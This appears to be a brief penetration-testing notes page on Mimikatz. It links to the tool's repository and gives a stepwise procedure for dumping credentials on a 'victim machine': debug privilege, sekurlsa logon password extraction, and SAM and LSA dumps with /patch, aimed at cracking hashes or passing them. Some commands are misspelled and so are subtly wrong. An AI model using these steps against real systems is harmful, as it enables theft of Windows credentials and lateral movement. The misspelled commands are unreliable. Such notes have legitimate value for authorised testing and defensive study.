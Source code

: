 # Mimikatz

## Github Link

* [https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz)[https://github.com/gentilkiwi/mimikatz/wiki/](https://github.com/gentilkiwi/mimikatz/wiki/)

## Dump Hashes with Procdump

* [https://www.onlinehashcrack.com/how-to-procdump-mimikatz-credentials.php](https://www.onlinehashcrack.com/how-to-procdump-mimikatz-credentials.php)

## What is Mimikatz

* tool used to view and steal credentials, generate Kerberos tickets, and leverage attacks
* dump credentials stored in memory
* cred dumping, pass-the-hash, over-pass-the-hash, pass-the-ticket, golden ticket, silver ticket, etc

## Credential Dumping with Mimikatz

### Step 1: Get Mimikatz on the Victim Machine

* use any exfiltration method
* advanced techniques may be required

### Step 2: Run Mimikatz and Command to Allow Debugging Restricted Process

```bash
privelege::debug
```

### Step 3: Compromise User Hashes

```bash
sekurlsa::logonpassword
```

* can also get wdigest (which stores password in clear text) but we need to turn feature on with tool)

### Step 4: Try to Dump SAM

```bash
lsadump::sam
lsadump::sam /patch
```

### Step 5: Get User and NTLM Another Way (Crack Them and Pass the Hash)

```bash
lsadump::lsa /patch
```

